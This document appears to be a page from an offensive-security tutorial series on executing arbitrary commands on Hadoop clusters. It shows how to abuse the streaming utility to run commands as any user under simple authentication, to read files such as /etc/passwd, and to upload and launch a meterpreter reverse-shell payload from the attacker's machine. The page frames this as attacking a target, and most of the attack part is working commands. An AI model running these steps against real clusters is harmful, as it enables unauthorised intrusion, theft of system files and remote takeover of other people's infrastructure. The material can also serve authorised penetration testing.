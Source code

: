 Executing remote commands
=========================

Description
-----------
This tutorial explains how to execute arbitrary commands on an Hadoop cluster

Prerequisites
-------------
1. A **working attack environment**: Hadoop binaries and the target cluster configuration are needed. Follow the following tutorials to set them up: 
  * [Setting up an Hadoop attack environment](../Setting up an Hadoop attack environment)
  * [Getting the target environment configuration](../Getting the target environment configuration)  
  
2. Then you need to be able to access the following **Hadoop services through the network**:
  * **YARN ResourceManager**: usually on ports 8030, 8031, 8032, 8033 or 8050
  * **NameNode metadata service** in order to [browse the HDFS datalake](../Browsing the HDFS datalake): usually on port 8020
  * **DataNode data transfer service** in order to upload/download file: usually on port 50010
  
3. Finally you have to look up which **authentication level** is deployed, the cluster you are attacking might have:
  * Either **simple authentication** enforced: in that case you don't need credentials, you can simply specify which user you want to be with the `HADOOP_USER_NAME`
  * Or **Kerberos authentication** enforced (called ["Hadoop Secure Mode"](https://hadoop.apache.org/docs/r2.7.2/hadoop-project-dist/hadoop-common/SecureMode.html)): in that case you need proper Kerberos tickets
  
  
Executing a single command
--------------------------
1. Go to the directory where you decompressed Hadoop binaries (`/opt` in the tutorial):
  ```
  $ cd /opt/hadoop-2.7.3/
  ```
  
2. Call the Hadoop streaming utility:
  ```
  $ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your single command> -reducer NONE
  ```
  
Some explanations might be useful:
  * `-input <a non empty file on HDFS>`: this will be provided as input to MapReduce for the command to be executed, just put at least a character in that file, this file is useless for our objective 
  * `-output <a nonexistant directory on HDFS>`: this directory will be used by MapReduce to write the result, either `_SUCCESS` or failure
  * `-mapper <your single command>`: the command to execute, for instance `"/bin/cat /etc/passwd"`. The output result will be written in the `-output` directory
  * `-reducer NONE`: there is no need for a reducer to execute a single command, a mapper is enough  

Note that for certain distributions you might need to put **additional parameters** (with `-D`) to submit a MapReduce job, for instance on **HortonWorks cluster** you need the **`-Dhdp.version=<version>`** option: you can find this information when you grab the target cluster configuration.  

Then when the job has terminated its execution: 
* Check the output result:
  ```
  $ hadoop fs -ls <a nonexistant directory on HDFS>
  ```
  
* Display the output:
  ```
  $ hadoop fs -cat <a nonexistant directory on HDFS>/part-00000
  ```
  
  
Executing a meterpreter
-----------------------
Due to the [limitations](#limitations) inherent to Hadoop, it is recommended to **use a `reverse shell` payload.**
```
$ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your executable meterpreter path on HDFS> -reducer NONE -file <your executable meterpreter path on your local attacking environment> -background
```
Again, some explanations:
  * `-file <your executable meterpreter path on your local attacking environment>`: your local meterpreter executable will be uploaded on HDFS, for instance `"/root/foobar/meterpreter.elf"`
  * `-mapper <your executable meterpreter>`: an HDFS path to your executable meterpreter, by default put `"./meterpreter.elf"`
  * `-background`: this starts the job without waiting for its completion  

Then **start your meterpreter listener**, wait **few dozen of seconds** (yes it is quite slow) before gaining your **meterpreter session**.  
  
  
Limitations
-----------
Due to the **distributed nature of a MapReduce job**, it is not possible to specify on which node you want to execute your payload. There is **no mechanism** ensuring that the payload you will launch on **two successive jobs** will execute on the **same cluster member**.  
As a consequence **you can't know beforehand the server IP where your payload will be executed**: so just use a `reverse shell` payload and gently wait for your shell to arrive.
  
  
References
----------
Check the [Hadoop Streaming page](https://hadoop.apache.org/docs/r2.7.2/hadoop-streaming/HadoopStreaming.html) for any additional help